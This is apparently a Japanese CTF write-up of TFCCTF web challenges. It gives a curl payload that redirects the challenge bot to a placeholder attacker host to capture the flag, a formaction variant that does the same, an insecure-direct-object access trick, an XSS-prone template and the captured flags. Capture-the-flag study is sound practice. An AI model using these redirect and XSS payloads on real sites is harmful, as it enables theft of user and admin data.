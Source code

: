 attackerのサイトに遷移した後にFLAG入力が発生していることが分かったので、これで良さそう。  
後はattackerのサイトに以下のようなhtmlを用意してbotを呼び出せば良い。

- test.html

```html:test.html
<form>
<input type="text" id="title" name="title">
<input type="submit" value="Submit">
</form>
```

- bot呼び出し

```sh
curl -X 'POST' --data-urlencode "fields=<meta http-equiv='refresh' content='0;URL=https://<attacker>/test.html'>" 'http://challs.tfcctf.com:31631/bot'
```

attackerサイトのアクセスログにFLAGが出力されていた。

- FLAG

```text
TFCCTF{144ab0e4c358b00b1258f2aea2250b21}
```

### 別解：WEB/COOKIE STORE

- formaction属性を使うことでも遷移先を変更できるらしい。

`<input type=submit formaction='http://<attacker>'>`

## WEB/BABY DUCKY NOTES

50 points / 443 solves

アカウント登録後にコメントが残せるらしい。  
コメントを登録して`/posts/view/`にアクセスすると、コメントが表示される。  
hidden設定していないコメントは他の人からもアクセスできる仕様のため、`/posts/view/admin`にアクセスすると、管理者のコメント（FLAG）が表示される。

- FLAG

```text
TFCCTF{Adm1n_l0St_h1s_m1nd!}
```

## WEB/BABY DUCKY NOTES: REVENGE

50 points / 175 solves

[WEB/BABY DUCKY NOTES](#webbaby-ducky-notes)の管理者コメント（FLAG）がhidden設定されているため、外部からは確認できなくなっている。  
このサイトにはレポート機能があり、自身が書いたページを管理者（Seleniumのbot）にアクセスさせることができる。  
また、コメントにXSSを仕込むことができるため、XSSでFLAGを取得できる。

```py
<ul class="posts_ul">
    {% for post in posts %}
    <li>
        <div class="blog_post">
            <div class="container_copy">
                <h1> {{post.get('title')}} </h1>
                <h3> {{post.get('username')}} </h3>
                <p> {{post.get('content') | safe}} </p>
            </div>
        </div>
    </li>
    {% endfor %} 
</ul>
```
